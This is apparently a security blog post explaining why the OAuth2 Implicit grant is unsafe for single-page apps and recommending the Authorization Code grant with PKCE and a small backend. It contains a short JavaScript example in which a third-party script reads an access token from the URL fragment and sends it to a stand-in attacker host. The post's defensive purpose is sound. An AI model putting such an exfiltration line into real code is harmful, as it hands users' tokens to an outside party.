 ```yaml
---
layout: blog-post
title: What's Wrong With the OAuth2 Implicit Grant?
description: OAuth2 specifies an Implicit grant. What's wrong with using it?
author: Brian Pontarelli
image: blogs/avoid-implicit-grant/whats-wrong-with-the-oauth2-implicit-grant-header-image.png
category: blog
tags: client-javascript
excerpt_separator: "<!--more-->"
---
```

The Implicit grant is part of the OAuth 2 RFC, but is [one of the features omitted in the OAuth 2.1 specification](/learn/expert-advice/oauth/differences-between-oauth-2-oauth-2-1/). With this grant, you don't have to write server side code. Instead of having to exchange an authorization code for an access token, you are provided an access token on redirect.

<!--more-->

This is convenient if you are working in the JAMstack or in another situation where you don't want to run a server. 

However, it is horribly insecure, broken, deprecated, and should never, ever be used (ever). Okay, maybe that's being a bit dramatic, but please don't use this grant. The good folks behind the OAuth 2.1 draft agree, which is why they left it out of that new specification.

> The Implicit grant ("response_type=token") is omitted from this specification as per Section 2.1.2 of OAuth 2.0 Security Best Current Practices

## Run away

Instead of showing you how to use this grant, let's discuss why you should avoid it.

{% include _image.liquid src="/assets/img/blogs/avoid-implicit-grant/Rabbitattack.jpg" alt="Just a rabbit?" class="img-fluid" figure=false %}

The reason that it has been removed is that it skips an important step that allows you to secure the tokens you receive from the OAuth server. This step occurs when your application backend makes the call to the Token endpoint to retrieve the tokens.

Unlike the [Authorization Code grant](/docs/v1/tech/oauth/#example-authorization-code-grant), the Implicit grant does not redirect the browser back to your application backend with an Authorization Code. Instead, it puts the access token directly on the URL as part of the redirect. These URLs look like this:

`https://piedpiper.com/#token-goes-here`

The token is added to the redirect URL after the `#` symbol. This places it in the fragment portion of the URL. What this means is that wherever the OAuth server redirects the browser to, the access token is accessible to any code running in the browser. In other words, to basically everyone.

To be more precise, the access token is accessible to any and all JavaScript that is running in the browser (including third party libraries). Since this token allows the browser to make API calls and web requests on behalf of the user, having this token be accessible to third-party code is extremely dangerous.

Let's take a dummy example of a single-page web application that uses the Implicit grant:

```html
// This is dummy code for a SPA that uses the access token
<html>
<head>
  <script type="text/javascript" src="/my-spa-code-1.0.0.js"></script>
  <script type="text/javascript" src="https://some-third-party-server.com/a-library-found-online-that-looked-cool-0.42.0.js"></script>
</head>
<body>
...
</body>
```

This HTML includes two JavaScript libraries:

* The code for the application itself (`my-spa-code-1.0.0.js`).
* A library we found online that did something cool and we just pulled it in (`a-library-found-online-that-looked-cool-0.42.0.js`).

Let's assume that our code is 100% secure and we don't have to worry about it. The library we pulled in, however, is an unknown quantity. 

This library may include other libraries as well. Remember, the DOM is dynamic. Any JavaScript can load any other JavaScript library simply by updating the DOM with `<script>` tags. Therefore, we have very little chance of ensuring every other line of code from third-party libraries is secure. 

After all, **do you** audit every JavaScript library and every dependency of each library every time you deploy your application? 

If a third-party library wanted to steal an access token from our dummy application, all it would need to do is run this code:

```javascript
if (window.location.hash.contains('access_token')) {
  fetch('http://steal-those-tokens.com/yummy?hash=' + window.location.hash);
}
```

Three lines of code and the access token has been stolen. As you can see, the risk of leaking tokens is far too high to ever consider using the Implicit grant. This is why we recommend no one ever use this grant.

## How to correctly use OAuth in a SPA

Well, if you are building an awesome React, Angular, Vue or other single page application, what should you use instead of the Implicit grant?

Use the Authorization Code grant! It's secure, safe, well tested, standardized and keeps tokens out of the URL.

In addition to using that grant, take these steps to secure your SPA OAuth flow:

* Use [PKCE](https://tools.ietf.org/html/rfc7636) in your SPA to make sure your application, which can't maintain a secure client secret, is not susceptible to an authorization code interception attack.
* Run a server. It needn't be complicated. In fact, it can be as simple as a few lines of node to exchange the authorization code for an access token. Here's [an example Node application](https://github.com/fusionauth/fusionauth-example-node). This is also known as the BFF, or Backend For a Frontend, pattern.
* Store access tokens out of reach of JavaScript in the browser. You could store them in a server side session, or in `secure`, `HttpOnly` cookies.

Want to learn more about the different OAuth grants? Check out [The Modern Guide to OAuth](/learn/expert-advice/oauth/modern-guide-to-oauth/) for an in-depth look at all the different OAuth grants and how you might use them in the real world.

Happy coding!

